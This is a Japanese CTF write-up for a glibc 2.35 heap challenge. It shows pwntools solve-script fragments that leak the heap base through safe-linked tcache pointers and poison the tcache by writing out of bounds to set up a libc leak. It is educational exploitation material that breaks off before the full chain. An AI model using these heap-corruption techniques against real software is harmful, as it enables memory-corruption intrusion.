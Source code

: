 ```python: solve.py
create(0) # A
create(1) # B
create(2) # C
create(3) # D
```

## heap base leak
まず初めにheap baseをleakする。mallocはtcacheにあるchunkを返すとき、fdメンバを上書きしないのでここからheap baseを計算することができる。今回はglibc2.35が使われているので、tcacheにはsafe-linkingがある事に注意。
まずAをfreeしてtcacheに登録する。この時A.fdには&A.fd>>12が入る。&A.fd>>12はheap_base>>12と等しいので、mallocでAを取り返したあとにA.fdを読み出し、これを12bit左シフトすればheap baseを得ることができる。
```python: solve.py
# 1: heap base leak
delete(0)
create(0)
heap_base = unpack(read(0).rstrip().ljust(8, b'\0')) << 12
log.info('heap_base = %#016lx'%(heap_base))
```
実際、gdbで見てみるとdelete(0)の後heapは以下のようになっている。上から順にtcache, A, B, C, D, Top chunkになる。Aはtcache(0x90)に登録されており、A.fdは&A.fd>>12になっていることが確認できる。

![0](https://storage.googleapis.com/zenn-user-upload/f4043978f80c-20230604.png)

create(0)のmalloc実行直後まで進めるとheapは以下のようになる。tcacheに入っていたAが返っており、A.fdはそのまま残っていることが確認できる。

![1](https://storage.googleapis.com/zenn-user-upload/9e8aa7194ff9-20230604.png)

## libc base leak
次にlibc baseをleakする。libc baseをleakするためにはchunkをunsorted binに繋いだ後でchunk.fdを読み出す必要があるが、今回memosは要素数が5なので、malloc-freeを繰り返してtcacheを枯渇させることはできない。そこで別の方法を考える。tcacheは以下のように定義されている。
```c: malloc/malloc.c#L3138
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```
tcacheのエントリ数はこのcountsで管理されるため、これを書き変えれば実際にfreeしなくてもtcache(0x90)が満杯だと認識させることができる。
その前にまず以下のようにしてCのアドレスを得ておく。
```python: solve.py
# 2: libc base leak
chunkB = heap_base + 0x290 + 0x90
chunkC = chunkB + 0x90

# tcache(0x90): B -> A
delete(0)
delete(1)

# tcache(0x90): B -> C
update(-1, pack(((chunkB + 0x10)>>12) ^ chunkC + 0x10) + b'\n')

# tcache(0x90):
create(1)
create(4)
create(0)
```
これが必要なのはdelete_memo関数の以下の部分があるから。
```c: src.c
    free(memo);
    memos[idx] = NULL;
```

[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34